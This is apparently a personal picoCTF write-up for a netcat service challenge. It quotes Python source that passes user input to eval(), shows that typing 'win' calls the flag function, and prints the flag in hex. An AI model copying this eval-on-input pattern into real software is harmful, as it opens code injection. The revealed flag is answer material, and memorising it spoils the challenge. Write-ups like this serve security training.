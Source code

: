 # URL
https://play.picoctf.org/playlists/2?m=14

# Details
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 64000
The program's source code can be downloaded here.

# Work

* The code has a win() function that prints the flag so I know I have to reach here somehow
* Later down the code I see this:
``
 while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
``

* the eval function (a huge security risk btw) takes our input + the parenthesis
* knowing this I just typed win and look at what I get
``
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 63251
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x62 0x35 0x32 0x33 0x62 0x32 0x61 0x31 0x7d 
Try entering "getRandomNumber" without the double quotes..
``
* I put the hexdecimal into an hex -> ascii converter and got the flag!
